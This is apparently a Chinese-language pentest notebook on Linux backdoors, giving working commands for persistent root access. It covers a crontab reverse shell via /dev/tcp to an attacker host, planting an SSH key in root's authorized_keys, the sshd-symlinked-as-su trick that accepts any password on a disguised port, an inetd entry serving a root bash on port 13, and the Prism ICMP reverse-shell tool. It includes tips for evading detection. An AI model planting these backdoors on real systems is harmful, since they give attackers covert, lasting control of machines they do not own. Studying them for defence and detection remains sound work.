

# Linux后门

### 计划任务后门crontab

> Crontab 命令被用来提交和管理用户的需要周期性执行的任务，与windows下的计划任务类似  
> 当安装完成操作系统后，默认会安装此服务工具，并且会自动启动 crond 进程，crond 进程每分钟会定期检査是否有要执行的任务，如果有要执行的任务，则自动执行该任务

##### 相关命令

```bash
crontab [-u user] -e :编辑某个用户的crontab文件内容
crontab [-u user] -1 :显示某个用户的crontab文件内容
crontab [-u user] -[i]r :从/var/spool/cron目录中删除某个用户的crontab文件，-i参数指定在删除用户的crontab文件时是否有确认提示
```

语法

|代表意义|分钟|小时|日期|月份|周|命令|
| ----------| ------| ------| ------| ------| -----| ------|
|范围|0-59|0-23|1-31|1-12|0-7||

##### 步骤

1. 在攻击机中进行监听

    ```bash
    nc -lvvp 监听端口号
    nc -lvvp 6666
    ```

    ​​
2. 目标机写入计划任务

    ```bash
    crontab -e 
    */1 * * * * bash -i >& /dev/tcp/攻击机/端口 0>&1
    [root@CentOS7 ~]# crontab -e 
    */1 * * * * bash -i >& /dev/tcp/192.168.134.128/6666 0>&1

    ```

    ​​​​​​
3. 目标机自动执行后，攻击机获得反弹shell

    ​​

### ssh公钥免密

> **公私钥原理**
>
> 公私钥同时生成，公钥用于加密，私钥用于解密。公钥外持私钥内持
>
> ssh服务中，只需公钥放在服务器A上，就可以通过通过私钥登录到服务器A中
>
> ‍
>
> 将客户端生成的ssh公钥写到目标服务器的 ~/.ssh/authorized_keys中，之后客户端利用私钥完成认证即可登录
>
> 该后门比较容易被发现
>
> 在中途会让输入密钥对的密码，由于需要实现免密登录，所以回车跳过即可

‍

##### 步骤

攻击机生成公钥/私钥对

```bash
ssh-keygen -t rsa
```

​​

将攻击机.ssh目录下的id_rsa.pub复制到目标服务器的/root/.ssh、authorized_keys文件里

```bash
scp ~/.ssh/id_rsa.pub root@目标ip地址:/root/.ssh/authorized_keys
```

​​​​

目标服务器中，将authorized_keys的权限改为600

```bash
chmod 600 /root/.ssh/authorized_keys
```

​​

免密连接目标服务器

```bash
ssh root@192.168.134.132
```

​​

### ssh软连接后门

> ssh软连接后门是一种经典后门，直接对sshd建立软链接，之后用任意密码就可以登录
>
> **软连接后门的原理**
>
> 是利用了PAM配置文件的作用，将sshd文件软连接名称设置为su，这样应用在启动过程中会去PAM配置文件夹中寻找是否存在对应名称的配置信息(su)，su在pam rootok只检测uid 0 即可认证成功，也可以使用其他软连接名字，但是文件必须得在/etc/pam.d目录下存在。  
>
> 特点:
>
> 1. 隐蔽性较弱，适一般的rookit hunter这类的防护脚本就可以扫描到；
> 2. 在本地查看端口号时会暴露端口，建议进行伪装
> 3. 能够绕过一些网络设备的安全流量监控

‍

##### 步骤

创建软链接，设置监听端口(伪装成常见端口)

```bash
ln -sf  /usr/sbin/sshd /tmp/su
/tmp/su -oPort=8081
```

​​

尝试使用ssh连接目标服务器，使用**任意密码**都可以登录

```bash
ssh root@192.168.134.132 -p 8081
```

​​

### inetd/xined后门  13端口

> 用来监听外部网络请求socket的系统守护进程，
>
> 过程：当inetd接收到一个外部请求后，会根据这个请求到自己的配置文件中去找到实际处理它的程序，再把接收到socket交给那个程序处理
>
> inetd  --- kali
>
> xined  --- centos

‍

##### 步骤

###### centos安装inetd步骤

```bash
yum  -y  install  xinetd                           --使用yum安装
systemctl  enable  xinetd.service             --开机启用xinetd服务

systemctl  list-unit-files  |  grep  xinetd       --列出xinetd服务是否开机启动
systemctl  is-enabled  xinetd                       --列出xinetd服务是否开机启动
```

###### kali

安装步骤

```bash
apt-get install openbsd-inetd
```

设置后门并连接

向/etc/inetd.conf文件中加入一行：daytime stream tco nowait root /bin/bash bash -i

​​​​​​​​

​​

开启inet 之后使用nc连接  nc -lvvp 目标IP 13

```bash
systemctl status inetd     查看状态
systemctl start inetd      开启服务
systemctl enable inetd.service
```

​​​​

```bash
nc -v 192.168.134.150 13
```

​​

### Prism后门

> prism工具：https://github.com/andreafabrizi/prism
>
> 是Linux下的icmp反弹后门工具，使用时将会在后台等待特定的主机/端口连接信息的ICMP数据包

‍

##### 步骤

编译prism.c文件

```bash
gcc -DDETACH -Wall -s -o prism prism.c
```

​​

编译完成后，查看prism后门配置信息

```bash
./prism Inf0
```

​​​​

将该后门上传到目标机中，再以root用户运行sendPacket.py脚本

```bash
sudo python2 ./sendPacket.py 目标IP 密码 攻击机ip 端口
[root@CentOS7 tmp]# sudo python2 ./sendPacket.py 192.168.134.132 p4ssw0rd 192.168.134.128 6767
```

​​

攻击机监听相关端口 等待后门连接

```bash
nv -lvvp 监听端口
```

​​
